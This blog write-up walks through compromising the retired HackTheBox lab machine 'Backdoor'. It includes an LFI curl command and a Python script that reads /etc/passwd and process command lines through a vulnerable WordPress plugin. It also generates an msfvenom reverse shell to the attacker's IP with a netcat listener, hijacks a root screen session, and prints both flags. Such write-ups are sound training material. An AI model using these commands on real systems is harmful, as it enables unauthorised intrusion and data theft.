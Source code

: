 Title: HTB: Backdoor
Date: MM-08-2022 17:44
category:security
tags:security, boot2root, HTB, wordpress, lfi, gdbserver, screen
meta:security, boot2root, HTB, wordpress, lfi, gdbserver, screen

<img class="align-left" src="/media/2022.xx/backdoor_card.png" alt="Backdoor" width="262">

This is a writeup about a retired HacktheBox machine:
[Backdoor](https://www.hackthebox.com/home/machines/profile/416) publish on
November 20, 2021 by
[hkabubaker17](https://www.hackthebox.com/home/users/profile/79623).
This box is rated as an easy machine. It implies a wordpress plugin, a LFI, a
gdbserver and a screen process.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only three TCP ports are open: 22 (SSH), 80 (HTTP) and 1337 (we don't know what
is running there).

    :::text
    # Nmap 7.92 scan initiated Tue Jan  4 08:45:39 2022 as: nmap -p- -sSV -oN notes.md 10.129.171.210
    Nmap scan report for 10.129.171.210
    Host is up (0.013s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    1337/tcp open  waste?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Tue Jan  4 08:46:11 2022 -- 1 IP address (1 host up) scanned in 31.95 seconds

The HTTP port is a basic WordPress website.

![WordPress homepage](/media/2022.xx/backdoor_01.png)

Looking at the installed plugin we found that ebook-download is available:

![ebook-download plugin](/media/2022.xx/backdoor_02.png)

This WordPress plugin is [vulnerable to a LFI](https://www.exploit-db.com/exploits/39574)
that we can exploit to retrieve files on the box.

    :::text
    └─$ curl http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../etc/passwd
    ../../../../../../../../../etc/passwd../../../../../../../../../etc/passwd../../../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    <SNIP>
    user:x:1000:1000:user:/home/user:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
    <script>window.close()</script>


We want to find which process is running on port 1337. We write a quick python
script that get the Max PID and list the process by PID.

    :::python
    import requests

    i=0
    r = requests.get('http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/sys/kernel/pid_max')
    maxpid= int(r.text[132:-31])
    print(maxpid)

    while i<maxpid:
        r = requests.get('http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/'+str(i)+'/cmdline')
        if r.text[102+3*len(str(i)):112+3*len(str(i))]!='<script>wi':
            print(r.text[102+3*len(str(i)):-31])
        i+=1

We finally discover that the 1337 process is a `gdbserver`. We also notice a
`sceen` session running as `root`.

    :::text
    └─$ python3 l.py
    4194304
    /sbin/initautoautomatic-ubiquitynoprompt
    <SNIP>
    /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
    /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done


`gdbserver` is vulnerable to a [RCE](https://www.exploit-db.com/exploits/50539).
We generate the reverse shell, start a listener and launch the exploit. Getting
a shell as `user` allowing use to grab the user flag.

    :::text
    └─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.26 LPORT=4444 PrependFork=true -o rev.bin

    ─$ python3 50539 backdoor.htb:1337 rev.bin

    └─$ nc -nlvp 4444

    listening on [any] 4444 ...
    connect to [10.10.14.26] from (UNKNOWN) [10.129.171.210] 42684
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    cat user.txt
    ee34dbf05622446ad1e9f1d35ac6d43e


# Root

We create the `.ssh` directory and put our public SSH key in the
`authorized_keys` file in order to be more comfortable.

Remember that screen process we enumerated before?

`/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done`

We can verify that the session is still running:

    :::text
    user@Backdoor:~$ screen -ls root/root
    There is a suitable screen on:
            3694.root       (01/05/2022 09:38:33 AM)        (Multi, detached)
    1 Socket in /run/screen/S-root.

And we attach it getting the root flag:

    :::text
    user@Backdoor:~$ screen -x root/root

    root@Backdoor:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Backdoor:~# cat root.txt
    dbb5f80464c7d1489b8bba15d280195e

# Wrapping up

A quick an easy box, perfect for me as it has been a while since my last box.

